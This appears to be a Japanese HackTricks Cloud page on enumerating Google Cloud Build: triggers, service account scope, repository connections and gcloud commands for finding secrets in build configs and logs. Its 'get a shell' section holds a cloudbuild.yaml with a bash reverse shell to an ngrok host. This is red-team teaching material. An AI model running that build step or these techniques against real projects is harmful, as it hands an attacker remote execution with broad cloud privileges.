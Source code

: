 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアビルド**とリリースプロセスを自動化する管理されたCI/CDプラットフォームであり、**ソースコードリポジトリ**と統合し、幅広いプログラミング言語をサポートしています。開発者がコードを自動的にビルド、テスト、デプロイすることを可能にし、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、直接外部リポジトリ**（Github、Bitbucket、Gitlab）に接続されています。

{% hint style="success" %}
Github/BitbucketのトークンをここやCloudリポジトリから盗む方法は見つけられませんでした。なぜなら、リポジトリがダウンロードされるときは[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### イベント

Cloud Buildは以下の場合にトリガーされます:

* **ブランチへのプッシュ**: ブランチを指定
* **新しいタグのプッシュ**: タグを指定
* **プルリクエスト**: PRを受け取るブランチを指定
* **手動呼び出し**
* **Pub/Subメッセージ:** トピックを指定
* **Webhookイベント**: HTTPS URLが公開され、リクエストはシークレットで認証される必要があります

### 実行

3つのオプションがあります:

* 実行するコマンドを**指定するyaml/json**。通常は: `/cloudbuild.yaml`
* ウェブコンソールとCLIで「インライン」で指定できる唯一のオプション
* 最も一般的なオプション
* 認証されていないアクセスに関連
* ビルドする**Dockerfile**
* ビルドする**Buildpack**

### SA権限

**サービスアカウントは`cloud-platform`スコープを持っており**、すべての権限を**使用できます。** **SAが指定されていない場合**（submitを行うときなど）、デフォルトのSA `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

デフォルトでは権限は与えられていませんが、簡単にいくつかの権限を与えることができます:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

ビルド実行に承認が必要なCloud Buildを設定することが可能です（デフォルトでは無効）。

### 接続 & リポジトリ

接続は以下を通じて作成できます:

* **GitHub:** OAuthプロンプトが表示され、**Secret Manager**内に保存される**Githubトークン**の権限を要求します。
* **GitHub Enterprise:** **GithubApp**のインストールを求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトの**Secret Manager**シークレットとして保存されます。
* **GitLab / Enterprise:** **APIアクセストークンとRead APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセスできるリポジトリを**リンクするために使用できます。**

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代目を使用するトリガーでのみ利用可能**であることに注意してください。
{% endhint %}

### リポジトリの接続

これは**`connection`**と同じではありません。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスすることができますが、接続オブジェクトは生成されませんが、リポジトリオブジェクト（1世代目）は生成されます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildはトリガーのためにファイルを保存する新しいストレージを**生成します**。これは例えば、GCPが提供する例で起こります:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケット[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルを含む`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

**ビルド設定とログ内の機密情報**を見つけることができます。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 権限昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
